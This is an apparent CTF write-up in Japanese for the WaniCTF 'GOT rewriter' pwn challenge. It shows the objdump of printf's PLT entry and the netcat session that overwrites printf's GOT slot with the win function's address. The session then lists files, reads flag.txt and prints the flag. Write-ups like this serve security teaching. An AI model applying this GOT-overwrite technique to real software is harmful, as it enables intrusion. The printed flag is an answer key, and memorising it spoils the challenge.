 # got rewriter:PWN:pts
nc got.wanictf.org 9004  
- global offset table (GOT)の仕組みを理解する必要があります。  
- objdump -d -M intel ./pwn04 | less  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)有効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn04](pwn04)　　　　[pwn04.c](pwn04.c)  

# Solution
接続すると以下のようにアドレスを書き換えられるようだ。  
```bash
$ nc got.wanictf.org 9004
Welcome to GOT rewriter!!!
win = 0x400807
Please input target address (0x600e10-0x6010b0): 0x0
Your input address is 0x0.
you can't rewrite 0x0!
Please input target address (0x600e10-0x6010b0): 0x600e10
Your input address is 0x600e10.
Please input rewrite value: 0
Your input rewrite value is 0x0.

*0x600e10 <- 0x0.


Segmentation fault (core dumped)
```
問題名の通り、gotを書き換えwinに飛ばしてやる。  
まずはobjdumpで確認する。  
```bash
$ objdump -d -M intel ./pwn04 | less
~~~
00000000004006d0 <printf@plt>:
  4006d0:       ff 25 62 09 20 00       jmp    QWORD PTR [rip+0x200962]        # 601038 <printf@GLIBC_2.2.5>
  4006d6:       68 04 00 00 00          push   0x4
  4006db:       e9 a0 ff ff ff          jmp    400680 <.plt>
~~~
```
printfが0x601038のようなので、そこを以下のように書き換える。  
```bash
$ nc got.wanictf.org 9004
Welcome to GOT rewriter!!!
win = 0x400807
Please input target address (0x600e10-0x6010b0): 0x601038
Your input address is 0x601038.
Please input rewrite value: 0x400807
Your input rewrite value is 0x400807.

*0x601038 <- 0x400807.


congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{we-c4n-f1y-with-gl0b41-0ffset-tab1e}
^C
```
flagが得られた。  

## FLAG{we-c4n-f1y-with-gl0b41-0ffset-tab1e}